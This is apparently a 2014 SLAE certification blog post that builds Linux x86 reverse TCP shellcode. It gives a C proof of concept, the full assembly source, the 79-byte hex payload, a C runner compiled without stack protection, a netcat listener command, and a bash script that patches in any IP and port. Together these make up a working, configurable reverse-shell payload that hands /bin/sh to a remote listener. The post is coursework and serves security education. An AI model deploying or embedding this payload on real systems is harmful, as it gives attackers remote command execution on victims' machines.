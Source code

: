 ```yaml
---
author: pol@blog
comments: true
date: 2014-04-04 07:03:42+00:00
layout: post
slug: slae-assignment-2-reverse-bind-tcp-shellcode
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
wordpress_id: 2328
categories:
- Programmazione
- SLAE
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Create a shellcode that reverse connect to a configured ip and port;

	
  2. The shellcode must execute /bin/sh on successful connection;

	
  3. IP and port number should be easily configurables


The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

<!-- more -->

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.

    
    #define STDIN 0
    #define STDOUT 1
    #define STDERR 2
    
    int main(void){
    	int fd;
    	struct sockaddr_in server_addr;
    	char *argv[] = { "/bin/sh", NULL };
    
    	server_addr.sin_family = AF_INET;
    	server_addr.sin_port = htons(7500);
    	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");
    
    	fd = socket(AF_INET, SOCK_STREAM, 0);
    
    	connect(fd, (struct sockaddr *)&server_addr, 16);
    
    	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
    	dup2(fd, STDIN);
    	dup2(fd, STDOUT);
    	dup2(fd, STDERR);
    
    	execve(argv[0], &argv[0], NULL);
    
    	return 0;
    }


As you can see in the above PoC, in our shellcode we'll need these syscall:



	
  1. two sys_socketcall(int call, unsigned long *args) where int call will be SYS_SOCKET and SYS_CONNECT according to /usr/include/linux/net.h;

	
  2. three sys_dup2(int oldfd, int newfd);

	
  3. one sys_execve(char *filename, char *argv[], char *envp[]) where both *argv[] and *envp[]** must be null terminated**


Below there is the complete shellcode:

    
    ;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
    ;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
    ;Author: 		Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:		526
    
    global _start
    section .text
    _start:
    	;socket(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
    	;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
    	xor edx,edx
    	xor ebx,ebx
    	push BYTE 0x66 	;sys_socketcall
    	pop eax
    	inc ebx			;SYS_SOCKET
    	push edx		;0
    	push BYTE 1 	;SOCK_STREAM
    	push BYTE 2		;AF_INET
    	mov ecx,esp
    	int 0x80
    	xchg esi,eax
    
    	;connect(): sys_socketcall(int call, unsigned long *args)
    	;eax -> sys_socketcall
    	;ebx -> SYS_CONNECT
    	;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
    	mov BYTE al,0x66
    	inc ebx
    	inc ebx					;SYS_CONNECT
    	push DWORD 0xa701a8c0	;192.168.1.167
    	push WORD 0x4c1d		;port 7500
    	push WORD 2				;AF_INET
    	mov ecx,esp
    	push BYTE 16
    	push ecx
    	push esi
    	mov ecx,esp
    	int 0x80
    
    	;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
    	mov ebx,esi
    	push BYTE 2
    	pop ecx
    lp:	mov BYTE al,0x3f
    	int 0x80
    	dec ecx
    	jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		
    
    	;execve /bin/sh
    	mov BYTE al,11
    	push edx
    	push 0x68732f2f
    	push 0x6e69622f
    	mov ebx,esp
    	push edx
    	mov edx,esp
    	push ebx
    	mov ecx,esp
    	int 0x80


I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:

    
    /* Template for running shellcode
     * Author: Paolo Stivanin <https://github.com/polslinux>
     * SLAE Student ID: 526
     */
    
    #include <stdio.h>
    #include <string.h>
    
    unsigned char shellcode[] = \
    "\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";
    
    int main(void){
    	printf("%zu\n", strlen(shellcode));
    	int (*ret)() = (int(*)())shellcode;
    	ret();
    	return 0;
    }


Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:



	
  1. open a terminal and type nc -v -l -p 7500

	
  2. execute Reverse_Shell_Bind_TCP


**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

    
    #!/bin/bash
    
    #Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
    #Author: 		Paolo Stivanin <https://github.com/polslinux>
    #SLAE ID:		526
    
    if [ -z "$1" ]; then
    	echo "Usage: $0 <elf-file>"
    	exit -1
    fi
    
    oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
    hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
    
    oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
    hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
    
    echo "[?] Write IP in dotted format (eg 192.168.1.167): "
    read dotip
    hexip=$(printf '%02x' $(echo ${dotip//./ }))
    
    echo "[?] Write port number: "
    read port
    hexport=$(printf '%x' $port)
    
    echo "[+] HEX code of choosed IP: $hexip"
    echo "[+] HEX code of choosed port: $hexport"
    
    echo "[+] Updating $1 elf..."
    newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
    sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
    newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
    sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1
    
    echo "[+] All done :)"


All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).





This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
